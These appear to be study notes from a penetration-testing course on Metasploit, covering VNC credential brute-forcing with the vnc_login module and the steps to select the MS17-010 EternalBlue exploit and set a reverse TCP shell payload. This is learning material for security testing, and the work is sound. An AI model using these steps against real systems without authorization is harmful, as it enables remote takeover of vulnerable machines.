 

## 🧠 Key Points to Remember
- Use `info` to understand module usage.  
- VNC often has **weak/no authentication**.  
- Module `vnc_login` checks login with usernames/passwords.  
- Found credentials can give **direct remote desktop access**.  
- These are classic **low hanging fruit** targets.

---
# 📝 Metasploit – Exploitation Framework (Exploits + Payloads + Sessions)

## 🔑 What is Metasploit Exploitation?
- Metasploit = **Exploitation Framework**.  
- Exploits are the **largest module category**.  
- Success = depends on good **service discovery & fingerprinting**.  

### 📊 Metasploit v5.0.101-dev
``` bash
=[ metasploit v5.0.101-dev]
-- --=[ 2048 exploits - 1105 auxiliary - 344 post]
----=| 562 payloads - 45 encoders - 10 nops]
-- --=[ 7 evasion]
```


## 🔍 Finding Exploits
1. **Search exploit**
``` bash
search ms17_010
```
2. **Select exploit**
``` bash
use exploit/windows/smb/ms17_010_eternalblue
```
3. **Info about exploit**
``` bash
info
```


## ⚡ Payloads in Metasploit
- Exploits have a **default payload**.  
- But you can list all compatible payloads:
``` bash
show payloads
```
### Example (MS17-010):
``` bash
0 generic/custom → Custom payload
1 generic/shell_bind_tcp → Bind TCP shell
2 generic/shell_reverse_tcp → Reverse TCP shell
3 windows/x64/exec → Execute command
```
👉 Choose payload:
``` bash
set payload generic/shell_reverse_tcp
```
